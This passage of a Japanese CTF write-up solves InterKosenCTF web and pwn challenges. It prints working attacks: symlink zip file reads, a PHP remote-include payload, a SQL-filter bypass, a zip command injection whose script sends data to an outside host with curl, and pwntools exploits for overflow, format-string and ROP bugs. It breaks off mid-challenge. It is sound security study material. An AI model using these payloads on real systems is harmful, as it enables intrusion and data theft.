  if name !~ /^[a-f0-9]{32}$/ || !File.exists?(zipfile)
    @err = "Not Found"
    erb :index
  else
    @name = name
    @images = `zipinfo -1 #{zipfile}`.lines.grep(/^word\/media\/[A-Za-z0-9_]+\.[A-Za-z0-9_]+/).map do |path|
      path.delete_prefix("word/media/")
    end
    erb :images
  end
end

get '/image/:name/:image' do
  if params[:name] !~ /^[a-f0-9]{32}$/ || params[:image] !~ /^[A-Za-z0-9_]+\.[A-Za-z0-9_]+$/
    @err = "Not Found"
    erb :index
  else
    zipfile = File.join("workdir", params[:name] + ".zip")
    filedir = File.join("workdir", SecureRandom.hex(16))
    file = File.join(filedir, params[:image])
    system("unzip -j #{zipfile} word/media/#{params[:image]} -d #{filedir}")
    if File.exists?(file)
      send_file(file)
    else
      @err = "Not Found"
      erb :index
    end
  end
end
```

docx ファイル (= ZIP ファイル) をアップロードすると、`word/media/` 下にあるファイルを展開してくれる Web アプリケーションのようです。

問題文によるとフラグは `/flag` にあるようです。この Web アプリケーションの機能やソースコードから考えて、任意のファイルが読み込めそうな脆弱性といえば、シンボリックリンクの未チェックか OS コマンドインジェクションです。今回は前者を試してみましょう。

ZIP にシンボリックリンクを仕込むことができないか、`man` コマンドでオプションを探してみましょう。

```
$ man zip
︙
-y
--symlinks
      For UNIX and VMS (V8.3 and later), store symbolic links as such in the zip archive, instead of compressing and storing the file referred to by the link.  This can avoid multiple copies of files being included in the archive as zip recurses the directory trees and accesses files directly and by
      links.
︙
```

ありました。`-y` オプションを付与するとシンボリックリンクを辿らずにそのまま ZIP に格納されるようです。

`mkdir -p word/media/; ln -s /flag word/media/a.txt; zip -ry a.zip word/media/a.txt` で `word/media/a.txt` が `/flag` を指すようにし、できた ZIP ファイルをアップロードして `a.txt` を開くとフラグが得られました。

```
KosenCTF{sym1ink_causes_arbitrary_fi13_read_0ft3n}
```

### Neko Loader (434)
> The flag is put in somewhere in the root directory of nyancat (Web サーバへのリンク) server.
> 
> 添付ファイル: neko_loader.tar.gz

`neko_loader.tar.gz` を展開すると、`index.php` (PHP コードはなく、ただの HTML)、`phpinfo.php` (`phpinfo()` を実行するだけ)、`getimage.php`、`png` と `jpeg` という画像だらけのディレクトリが出てきました。

`phpinfo.php` の出力を見てみると、`allow_url_fopen` と `allow_url_include` のいずれも On になっており (後者はデフォルトでは Off)、RFI ができそうな雰囲気があります。

`getimage.php` は以下のような内容でした。

```php
<?php
if (empty($_POST['ext']) || empty($_POST['name'])) {
    // Missing parameter(s)
    header("HTTP/1.1 404 Not Found");
    print("404 Not Found");
    exit;
} else {
    $ext = strtolower($_POST['ext']);   // Extension
    $name = strtolower($_POST['name']); // Filename
}

if (strlen($ext) > 4) {
    // Invalid extension
    header("HTTP/1.1 500 Internal Server Error");
    print("500 Internal Server Error");
    exit;
}

switch($ext) {
    case 'jpg':
    case 'jpeg': $mime = 'image/jpg'; break;
    case 'png': $mime = 'image/png'; break;
    default: $mime = 'application/force-download';
}

// Download
header('Expires: 0');
header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
header('Cache-Control: private', false);
header('Content-Type: '.$mime);
header('Content-Transfer-Encoding: binary');
include($ext.'/'.$name.'.'.$ext);
?>
```

`include($ext.'/'.$name.'.'.$ext);` で `$ext` と `$name` の 2 つのユーザ入力由来の文字列がそのまま結合されて `include` されており、ここで LFI か RFI ができそうです。この Web アプリケーションにアップロード機能はありませんが、`phpinfo.php` と組み合わせて [LFI ができそうな雰囲気](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)があります。が、今回は RFI を試してみましょう。

`$ext` については、`if (strlen($ext) > 4) {` で 4 文字以下でなければならないという制約があります。`include` 時には `$ext` の直後に `/` が来るため、RFI をするためには `http:` のように末尾にコロンを付加しなければならず、このため `http` は使えません。3 文字以下のラッパーを探す必要がありますが、`phpinfo.php` の `Registered PHP Streams` を見てみると、`php` と `ftp` の 2 つがありました。後者が使えそうです。

適当に FTP サーバを立て、`<?php passthru('ls /');` という内容の `a.txt` というファイルを用意しておきます。`ext` に `ftp:`、`name` に `/(FTP サーバの IP アドレス):8000/a.txt#` をセットして送信すると、以下のように出力されました。

```
bin
boot
dev
etc
home
lib
lib64
media
mnt
nyannyan_flag
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

`nyannyan_flag` にフラグがありそうです。`a.txt` の内容を `<?php passthru('cat /nyannyan_flag');` に変え、もう一度同じことをしてみるとフラグが得られました。

```
KosenCTF{n3v3r_4ll0w_url_1nclud3}
```

### E-Sequel-Injection (500)
> Just login (Web サーバへのリンク).

与えられた URL にアクセスし、`view source` と書かれているリンクをクリックするとこの Web アプリケーションのソースコードが得られました。

```php
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    exit;
}

$pattern = '/(\s|UNION|OR|=|TRUE|FALSE|>|<|IS|LIKE|BETWEEN|REGEXP|--|#|;|\/|\*|\|)/i';
if (isset($_POST['username']) && isset($_POST['password'])) {

    if (preg_match($pattern, $_POST['username'], $matches)) {
        var_dump($matches);
        exit;
    }
    if (preg_match($pattern, $_POST['password'], $matches)) {
        var_dump($matches);
        exit;
    }

    $pdo = new PDO('mysql:host=e_sequel_db;dbname=e_sequel;charset=utf8;', 'e_sequel', 'e_sequelpassword');
    $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_ASSOC);
    $stmt = $pdo->prepare("SELECT username from users where username='${_POST['username']}' and password='${_POST['password']}'");
    $stmt->execute();
    $result = $stmt->fetchAll();
    if (count($result) > 0) {
        if ($result[0]['username'] == 'admin') {
            echo include('flag.php');
        } else {
            echo 'Nice login, ' .  $result[0]['username'] . '!';
        }
        exit;
    }
    echo 'Failed to Login';
    exit;
}

?>
<!doctype html>
<html>
    <head>
        <title>E-Sequel-Injection!</title>
        <meta charset="utf-8">
        <style>
html,body {
    width: 100%;
    height: 100%;
    display: flex;
    margin: 0;
    padding: 0;
    background-color: palevioletred;
}
#wrapper {
    width: 640px;
    margin: auto;
    border: 2px solid #000;
    padding: 20px;
    background-color: #fff;
}
input[type=text],input[type=password] {
    font-size: 120%;
    display: block;
    margin-bottom: 10px;
    padding: 0.2em;
    width: 100%;
    text-align: center;
    border: 2px solid #666;
}
input[type=submit] {
    background-color: transparent;
    box-shadow: 0 2px 1px #666;
    border: 2px solid #666;
    font-size: 120%;
    float: right;
}
input[type=submit]:hover {
    cursor: pointer;
}
input[type=submit]:active {
    position: relative;
    box-shadow: none;
    top: 2px;
}
        </style>
    </head>
    <body>
        <div id="wrapper">
            <p>just login as 'admin' by E-Sequel-Injection. <a href="?source">view source</a></p>

            <form method="POST">
                <input type="text" name="username" required placeholder="username">
                <input type="password" name="password" required placeholder="password">
                <input type="submit" value="Login">
            </form>
        </div>
    </body>
</html>
```

`if ($result[0]['username'] == 'admin') { echo include('flag.php'); }` と、`admin` としてログインできればフラグが取得できるようです。

`$stmt = $pdo->prepare("SELECT username from users where username='${_POST['username']}' and password='${_POST['password']}'");` とユーザ入力がそのまま SQL 文に突っ込まれており、ここで SQL インジェクションができます。が、正規表現によってユーザ入力がチェックされており、`OR` や `UNION` が使えません。

`'` と `"` のいずれもエスケープされないことを利用して、`"` を使って `' and password='` の部分をただの文字列として解釈されるよう変えてしまいましょう。また、MySQL では `'1'` が真として扱われることを利用しましょう。

ユーザ名に `admin'and'a'in("a` を、パスワードに `",'a')and'1` を入力するとフラグが得られました。

```
KosenCTF{Smash_the_holy_barrier_and_follow_me_in_the_covenant_of_blood_and_blood}
```

### Image Compressor (666)
> My best friend releases a service (Web サーバへのリンク) which stores an image into a zip file. I want to know his secret written in somewhere in the root directory.
> 
> 添付ファイル: image_compressor.tar.gz

`image_compressor.tar.gz` を展開すると、`app.py` という以下のような内容の Python スクリプトと、Web サーバ用のテンプレート等のファイルが出てきました。

`app.py` は以下のような内容でした。

```python
from flask import *
import os
import random
import re

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['SECRET_KEY'] = os.urandom(32)

HOST, PORT = '0.0.0.0', '13001'

@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        flash('Upload a file.')
        return redirect('/')
    
    f = request.files['file']
    if not f:
        flash('Upload a file.')
        return redirect('/')
    
    if not is_allowed_file(f.filename):
        flash('Invalid filename.')
        return redirect('/')

    filepath = os.path.join('/tmp', f.filename)
    outpath = '/tmp/{:016x}.zip'.format(random.randrange(0, pow(2, 64)))
    f.save(filepath)
    
    conv = request.form.get('conv', '')
    comp = request.form.get('comp', '')
    enc  = request.form.get('enc' , '')
    password = request.form.get('password', '')
    options = ''
    for option in [conv, comp, enc]:
        if is_allowed_option(option):
            options += '-{} '.format(option)
    if enc and is_allowed_password(password):
        options = '{}"{}"'.format(options, password)
    
    command = 'timeout -k 2 1 zip {} {} -j {}'.format(
        outpath,
        filepath,
        options
    )
    os.system(command)
    
    if not os.path.exists(outpath):
        flash('Failed.')
        return redirect('/')

    response = make_response()
    response.data = open(outpath, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=output.zip'
    response.mimetype = 'application/zip'
    os.unlink(outpath)
    
    return response

def is_allowed_file(filename):
    return re.fullmatch("[A-Za-z0-9]+\.(png|jpg|jpeg)", filename) is not None

def is_allowed_option(option):
    return re.fullmatch("[A-Za-z0-9]+", option) is not None

def is_allowed_password(password):
    return re.fullmatch("[^\"`$\\\\!]+", password) is not None

if __name__ == '__main__':
    app.run(
        host = HOST,
        port = PORT,
        debug=False
    )
```

`png` `jpg` `jpeg` のいずれかの拡張子のファイルをアップロードすると、アップロード時に指定したオプション (LF を CRLF に変換するか、効率的な圧縮を行うか、パスワードを指定するか) を利用して圧縮した ZIP ファイルを返してくれる Web アプリケーションのようです。

オプション周りの処理を見てみましょう。

```python
    conv = request.form.get('conv', '')
    comp = request.form.get('comp', '')
    enc  = request.form.get('enc' , '')
    password = request.form.get('password', '')
    options = ''
    for option in [conv, comp, enc]:
        if is_allowed_option(option):
            options += '-{} '.format(option)
    if enc and is_allowed_password(password):
        options = '{}"{}"'.format(options, password)
    
    command = 'timeout -k 2 1 zip {} {} -j {}'.format(
        outpath,
        filepath,
        options
    )
    os.system(command)
```

`is_allowed_option` が許す範囲 (英数字のみ) で好きなオプションが指定でき、またパスワードを指定するフォームを利用して、`is_allowed_password` が許す範囲 (`"` `$` `!` バッククォート等、直接 OS コマンドインジェクションができてしまう文字を含まない) でひとつのオプションに引数を与えることができるようです。`zip` コマンドに何か悪いことができるオプションがないでしょうか。`man` コマンドで探してみましょう。

```
$ man zip
-T
--test
      Test the integrity of the new zip file. If the check fails, the old zip file is unchanged and (with the -m option) no input files are removed.

-TT cmd
--unzip-command cmd
      Use  command  cmd  instead  of  'unzip  -tqq' to test an archive when the -T option is used.  On Unix, to use a copy of unzip in the current directory instead of the standard system
      unzip, could use:

        zip archive file1 file2 -T -TT "./unzip -tqq"

      In cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command.  The return code is checked for success  (0  on
      Unix).
```

ありました! `-T` オプションが付加されているときに、`-TT` オプションで指定されたコマンドが `unzip` の代わりに実行されるようです。これを使って OS コマンドを実行させてみましょう。

以下のような内容の `payload.png` というファイルを用意します。

```shell
#!/bin/bash
curl http://(URL) -d $(python -c "import glob; print(','.join(glob.glob('/*')))")
```

`comp` の value を `T` に、また `enc` の value を `TT` にして、パスワード欄に `sh /tmp/payload.png #` を入力してアップロードすると、Web サーバから HTTP リクエストが来ました。どうやら `/flowey_the_flowey_the_flag` というファイルが存在しているようです。

Python で実行するコードを `print(open('/flowey_the_flowey_the_flag').read())` に変えるとフラグが得られました。

```
KosenCTF{4rb1tr4ry_c0d3_3x3cut10n_by_unz1p_c0mm4nd}
```

## Pwn
### fastbin tutorial (250)
> Do you understand how malloc/free works?  
> nc pwn.kosenctf.com 9001

`nc` コマンドを使って問題サーバに接続してみます。

```
$ nc pwn.kosenctf.com 9001
Welcome to Double Free Tutorial!
In this tutorial you will understand how fastbin works.
Fastbin has various security checks to protect the binary
from attackers. But don't worry. You just have to bypass
the double free check in this challenge. No more size checks!
Your goal is to leak the flag which is located at 0x557482fd7240.

[+] f = fopen("flag.txt", "r");
[+] flag = malloc(0x50);
[+] fread(flag, 1, 0x50, f);
[+] fclose(f);

This is the initial state:

 ===== Your List =====
   A = (nil)
   B = (nil)
   C = (nil)
 =====================

 +---- fastbin[3] ----+
 | 0x0000000000000000 |
 +--------------------+
           ||
           \/
(end of the linked list)

You can do [1]malloc / [2]free / [3]read / [4]write
> 
```

Double Free を利用して、ヒープ上に読み込まれたフラグを読みだせばよいようです。適当に試していると、

```
malloc A
free A
malloc B
free A
malloc C
malloc A
malloc A
malloc A
read A
```

でフラグを読み出すことができました。

```
 ===== Your List =====
   A = 0x55c89de2a1e0
   B = 0x55c89de2a120
   C = 0x55c89de2a120
 =====================

 +---- fastbin[3] ----+
 | 0x0000000000000000 |
 +--------------------+
           ||
           \/
(end of the linked list)

You can do [1]malloc / [2]free / [3]read / [4]write
> Which one? (A / B / C): [+] A = malloc(0x50);

 ===== Your List =====
   A = 0x55c89de2a2a0
   B = 0x55c89de2a120
   C = 0x55c89de2a120
 =====================

 +---- fastbin[3] ----+
 | 0x0000000000000000 |
 +--------------------+
           ||
           \/
(end of the linked list)

You can do [1]malloc / [2]free / [3]read / [4]write
> Which one? (A / B / C): 
[+] printf("[+] %s\n", A);
[+] KosenCTF{y0ur_n3xt_g0al_is_t0_und3rst4nd_fastbin_corruption_attack_m4yb3}
```

```
KosenCTF{y0ur_n3xt_g0al_is_t0_und3rst4nd_fastbin_corruption_attack_m4yb3}
```

### shopkeeper (303)
> What can I help you?  
> nc pwn.kosenctf.com 9004
> 
> 添付ファイル: shopkeeper.tar.gz

`shopkeeper.tar.gz` を展開すると、`shopkeeper.c` と、これをコンパイルしたバイナリと思われる `chall` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file ./chall
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e28f1b2567a13753bbb6d2aaa63f90f0c9b8968e, not stripped
```

x86-64 の ELF のようです。

`shopkeeper.c` は以下のような内容でした。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#define LEN_NAME 0x20

struct _item {
  void (*event)(void);
  int price;
  char name[LEN_NAME];
  struct _item *next;
};
typedef struct _item item_t;

item_t *item = NULL;

void dputs(char *msg)
{
  char *ptr;
  
  for(ptr = msg; *ptr != 0; ++ptr) {
    putchar(*ptr);
    usleep(50000);
  }
  
  putchar('\n');
}

void readline(char *buf)
{
  char *ptr;
  
  for(ptr = buf; ; ++ptr) {
    if (read(0, ptr, 1) == 0) break;
    if (*ptr == '\n') {
      *ptr = 0x00;
      break;
    }
  }
}

item_t* purchase(char *name)
{
  item_t *p;
  for(p = item; p != 0; p = p->next) {
    if (strcmp(p->name, name) == 0) {
      return p;
    }
  }
  return NULL;
}

void item_Biscle(void)
{
  dputs("* You consume the Biscle...");
  dputs("* Your HP was maxed out.");
}

void item_CinnamonBunny(void)
{
  dputs("* You consume the Cinnamon Bunny...");
  dputs("* Your HP was maxed out.");
}

void item_ToughGlove(void)
{
  dputs("* You equipped the Tough Glove...");
  dputs("* But nothing special happened.");
}

void item_ManlyBandanna(void)
{
  dputs("* You equipped the Manly Bandanna...");
  dputs("* But nothing special happened.");
}

void item_YourGoal(void)
{
  dputs("* You consume the Hopes.");
  dputs("* You got the shell!");
  system("/bin/sh");
}

void add_item(char *name, int price, void *f)
{
  item_t *next = item;
  
  /* Insert an item */
  item = (item_t*)malloc(sizeof(item_t));
  item->event = f;
  item->price = price;
  strncpy(item->name, name, LEN_NAME);
  item->next = next;
}

void setup(void)
{
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  /* Set up a shop */
  add_item("Hopes", 9999, item_YourGoal);
  add_item("Tough Glove", 50, item_ToughGlove);
  add_item("Manly Bandanna", 50, item_ManlyBandanna);
  add_item("Biscle", 15, item_Biscle);
  add_item("Cinnamon Bun", 25, item_CinnamonBunny);
}

void welcome(void)
{
  dputs("* Hello, traveller.");
  dputs("* What would you like to buy?");
}

void shop(item_t *inventory)
{
  char buf[LEN_NAME];
  item_t *p, *t;
  int money = 100;

  /* Show and ask */
  for(p = item; p != 0; p = p->next) {
    printf(" $%d - %s\n", p->price, p->name);
  }
  printf("> ");
  readline(buf);
    
  /* Purchase */
  t = purchase(buf);
  if (t == NULL) {
    
    dputs("* Just looking?");
    
  } else if (money >= t->price) {
    
    money -= t->price;
    memcpy(inventory, t, sizeof(item_t));
    dputs("* Thanks for your purchase.");
    
  } else {
    
    dputs("* That's not enough money.");
  
  }
}

void use(item_t *inventory)
{
  char buf[0x10];
  
  /* Use the item */
  if (*inventory->name != 0) {
    
    dputs("* Wanna use it now?");
    printf("[Y/N] > ");
    readline(buf);
    
    if (*buf == 'Y') {
      (*inventory->event)();
    }
    
  }
}

int main(void)
{
  item_t inventory = {NULL};
  
  setup();
  welcome();
  
  shop(&inventory);
  use(&inventory);
  
  dputs("* Have a nice day.");
  return 0;
}
```

100 の所持金の範囲内で `Biscle` や `Cinnamon Bun` のような商品が買え、その場で使う選択をすると、購入した商品に応じて処理が行われるという[プログラム](https://undertale.com/)のようです。

`item_YourGoal` という関数では `system("/bin/sh")` とシェルが呼ばれており、怪しげな雰囲気があります。`item_YourGoal` を参照している箇所を探すと、

```c
  add_item("Hopes", 9999, item_YourGoal);
  add_item("Tough Glove", 50, item_ToughGlove);
  add_item("Manly Bandanna", 50, item_ManlyBandanna);
  add_item("Biscle", 15, item_Biscle);
  add_item("Cinnamon Bun", 25, item_CinnamonBunny);
```

どうやら 9999 というとんでもない価格の `Hopes` という商品を購入した際に呼ばれる関数であることが分かります。

所持金をなんとか増やせないでしょうか。購入の処理を行っている関数を見てみます。

```c
void shop(item_t *inventory)
{
  char buf[LEN_NAME];
  item_t *p, *t;
  int money = 100;

  /* Show and ask */
  for(p = item; p != 0; p = p->next) {
    printf(" $%d - %s\n", p->price, p->name);
  }
  printf("> ");
  readline(buf);
    
  /* Purchase */
  t = purchase(buf);
  if (t == NULL) {
    
    dputs("* Just looking?");
    
  } else if (money >= t->price) {
    
    money -= t->price;
    memcpy(inventory, t, sizeof(item_t));
    dputs("* Thanks for your purchase.");
    
  } else {
    
    dputs("* That's not enough money.");
  
  }
}
```

所持金が入る `money` より前に、ユーザが入力した商品名が入る `buf` が存在しています。`buf` への入力は `readline(buf);` と `readline` 関数が使われていますが、

```c
void readline(char *buf)
{
  char *ptr;
  
  for(ptr = buf; ; ++ptr) {
    if (read(0, ptr, 1) == 0) break;
    if (*ptr == '\n') {
      *ptr = 0x00;
      break;
    }
  }
}
```

`gets` のように、入力できる最大文字数等の制限はありません。また、`if (read(0, ptr, 1) == 0) break;` と `read` が使われており null バイトの入力もできるようです。ここでバッファオーバーフローによって `money` が書き換えられそうです。やってみましょう。

```
$ (python2 -c 'import struct, sys; sys.stdout.write("Hopes\0\0\0" + "AAAAAAAA" * 5 + "AAAABBB" + "\nY\n")'; cat) | nc pwn.kosenctf.com 9004
* Hello, traveller.
* What would you like to buy?
 $25 - Cinnamon Bun
 $15 - Biscle
 $50 - Manly Bandanna
 $50 - Tough Glove
 $9999 - Hopes
> * Thanks for your purchase.
* Wanna use it now?
[Y/N] > * You consume the Hopes.
* You got the shell!
id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
ls
chall
flag.txt
redir.sh
cat flag.txt
KosenCTF{th4t5_0v3rfl0w_41n7_17?}
```

フラグが得られました。

```
KosenCTF{th4t5_0v3rfl0w_41n7_17?}
```

### bullsh (400)
> It's tantalizing.  
> nc pwn.kosenctf.com 9003
> 
> 添付ファイル: bullsh.tar.gz

`bullsh.tar.gz` を展開すると、`libc-2.27.so` という共有ライブラリと、`chall` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file ./chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=248ac4481b13e44bb9c89677a6f7cabf2611d968, not stripped
```

x86-64 の ELF のようです。セキュリティ機構を確認します。

```
$ checksec ./chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

`Partial RELRO` ということで、GOT Overwrite ができそうです。

どのような処理を行っているか、[Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
void bullexec(char *command)

{
  int iVar1;
  char *local_10;
  
  local_10 = command;
  do {
    if (*local_10 == 0) {
LAB_0040079c:
      iVar1 = strcmp(command,"ls");
      if (iVar1 == 0) {
        system(command);
      }
      else {
        iVar1 = strcmp(command,"exit");
        if (iVar1 == 0) {
                    /* WARNING: Subroutine does not return */
          exit(0);
        }
        printf(command);
        puts(": No such command");
      }
      return;
    }
    if ((*local_10 == '\n') || (*local_10 == ' ')) {
      *local_10 = 0;
      goto LAB_0040079c;
    }
    local_10 = local_10 + 1;
  } while( true );
}

void bullsh(void)

{
  char user_input [72];
  
  do {
    printf("$ ");
    fgets(user_input,0x3f,stdin);
    bullexec(user_input);
  } while( true );
}

int main(void)

{
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  bullsh();
  return 0;
}
```

ユーザ入力を受け付け、入力したコマンドが `ls` か `exit` であれば `system` で呼び出し、そうでなければそのようなコマンドはないと表示するのを繰り返すプログラムのようです。`bullexec` を見ると、`printf(command);` と存在しないコマンドを入力した際に発火する Format String Bug があります。

まずユーザ入力の位置を確認しましょう。

```
$ ./chall
$ %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
400927.65.48f3d061.4920b8c0.49432580.0.233e4c30.0.233e4c53.233e4c80.40084e.252e7825: No such command
$ %12$x
24323125: No such command
```

なるほど。それでは、FSB を利用して GOT の `printf` を `system` に書き換えてしまいましょう。

```python
from pwn import * # https://github.com/Gallopsled/pwntools
from libformatstr import FormatStr # https://github.com/hellman/libformatstr

elf = ELF('./chall')
s = remote('pwn.kosenctf.com', 9003)

s.recvuntil('$ ')
p = FormatStr(isx64=1)
p[elf.got['printf']] = elf.symbols['system']
p[elf.got['printf'] + 4] = 0
s.sendline(p.payload(12))

s.interactive()
```

```
$ python2 solve.py
︙
$ bash
$ ls -la
total 28
drwxr-xr-x  2 root pwn  4096 Aug  3 09:31 .
drwxr-xr-x 10 root root 4096 Aug  3 09:31 ..
-r-xr-x---  1 pwn  pwn  8736 Jul 31 05:28 chall
-r--r-----  1 pwn  pwn    47 Jul 31 05:28 flag.txt
-r-xr-x---  1 pwn  pwn   367 Jul 31 05:28 redir.sh
$ cat flag.txt
KosenCTF{f0rm4t_str1ng_3xpl01t_0n_x64_1s_l4zy}
```

フラグが得られました。

```
KosenCTF{f0rm4t_str1ng_3xpl01t_0n_x64_1s_l4zy}
```

### stegorop (526)
> Hide your secret into a brainf**k code.  
> nc pwn.kosenctf.com 9002
> 
> 添付ファイル: stegorop.tar.gz

`stegorop.tar.gz` を展開すると、`libc-2.27.so` という共有ライブラリと、`chall` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file ./chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c9fbe3fc07dd007b02efa2d13e4738f6ce41a3ef, not stripped
```

x86-64 の ELF のようです。セキュリティ機構を確認します。

```
$ checksec ./chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Canary はないようです。試しに実行してみましょう。

```
$ ./chall 
===== Online Steganography Tool =====
Input: hoge
Output: +,.>+.++
$ ./chall 
===== Online Steganography Tool =====
Input: fuga
Output: +-,>+.<.
$ python2 -c "print 'A' * 200" | ./chall 
===== Online Steganography Tool =====
Input: Output: <.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.<.
Segmentation fault
```

入力された文字列を Brainf*ck っぽい文字列に変換して出力するプログラムのようです。また、単純なバッファオーバーフローの脆弱性があるようです。RIP がどの位置に来るか確認しましょう。

```
$ gdb ./chall 
Reading symbols from ./chall...(no debugging symbols found)...done.
gdb-peda$ pattern_create 160
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAq'
gdb-peda$ r
︙
Stopped reason: SIGSEGV
0x0000000000400947 in main ()
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 112
Registers point to pattern buffer:
[RSP] --> offset 120 - size ~42
```

`A * 120 + BBBBBBBB` で RIP を `0x4242424242424242` にすることができそうです。ここで、どのような処理を行っているか把握するため [Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
int main(int argc,char **argv)

{
  char user_input [112];
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  if (lock != 0) {
                    /* WARNING: Subroutine does not return */
    __abort(*argv);
  }
  puts("===== Online Steganography Tool =====");
  printf("Input: ");
  read(0,user_input,0x100);
  stagernography(user_input);
  if (lock != 0) {
                    /* WARNING: Subroutine does not return */
    __abort(*argv);
  }
  lock = 1;
  return 0;
}
```

大変シンプルです。が、困ったことに `lock` という変数を使って `main` を 2 度呼ぶことができないようになっています。

これで何が困るかと言うと、最初の攻撃で libc が読み込まれたアドレスを取得し、その後にシェルを呼ぶために計算したアドレスをスタックに書き込む必要があるため、これを実現するためにもう一度脆弱な `main` を呼ぼうにも `lock` によって阻止されてしまいます。ではどうするかというと、`lock` のアドレスが固定であることと `read` が存在することを利用し、`read` を `0` に書き換えます。`read(0, lock, …)` → `main` の順番で実行することで、何度も `main` を呼ぶことができるはずです。

最終的に [One-gadget RCE](https://github.com/david942j/one_gadget) と組み合わせて、以下のようなスクリプトでシェルを奪うことができました。

```python
from pwn import *

elf = ELF('./chall')
rop = ROP(elf)
libc = ELF('./libc-2.27.so')
s = remote('pwn.kosenctf.com', 9002)

# stage 1: get libc base address
s.recvuntil('Input: ')

payload = ''
payload += 'A' * 120
payload += p64(rop.find_gadget(['pop rdi', 'ret']).address)
payload += p64(elf.got['puts'])
payload += p64(elf.symbols['puts']) # puts(puts)
payload += p64(rop.find_gadget(['pop rdi', 'ret']).address)
payload += p64(0)
payload += p64(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
payload += p64(elf.symbols['lock'])
payload += p64(0) # dummy
payload += p64(elf.symbols['read']) # read(0, lock, ???)
payload += p64(elf.symbols['main'])
s.send(payload)
s.recvline() # output

addr_puts = u64(s.recvline()[:-1].ljust(8, '\0'))
libc_base = addr_puts - libc.symbols['puts']
print 'libc_base:', hex(libc_base)

s.send('\0\0\0\0') # lock = 0

# stage 2: get shell
s.recvuntil('Input: ')

payload = ''
payload += p64(libc_base + 0x4f2c5) * 32 # one-gadget rce
s.send(payload)
s.recvline() # output

s.interactive()
```

```
$ python2 solve.py
︙
$ ls -la
total 28
drwxr-xr-x  2 root pwn  4096 Aug  3 09:31 .
drwxr-xr-x 10 root root 4096 Aug  3 09:31 ..
-r-xr-x---  1 pwn  pwn  8976 Jul 31 05:28 chall
-r--r-----  1 pwn  pwn    32 Jul 31 05:28 flag.txt
-r-xr-x---  1 pwn  pwn    37 Jul 31 05:28 redir.sh
$ cat flag.txt
KosenCTF{r0p_st4g3r_is_piv0t4l}
```

フラグが得られました。

```
KosenCTF{r0p_st4g3r_is_piv0t4l}
```

### kitten (526)
> Wildlife conservation!  
> nc pwn.kosenctf.com 9005
> 
> 添付ファイル: kitten.tar.gz

`kitten.tar.gz` を展開すると、`libc-2.27.so` という共有ライブラリと、`chall` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file ./chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3712320d19e46ca09674d5fc6f3a73d1a0340630, not stripped
```

x86-64 の ELF のようです。セキュリティ機構を確認します。

```
$ gdb ./chall 
Reading symbols from ./chall...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

`Full RELRO` のようです。つらそう。とりあえず実行してみましょう。

```
$ ./chall 
================================
1. Find a feral kitten
2. Feed a kitten
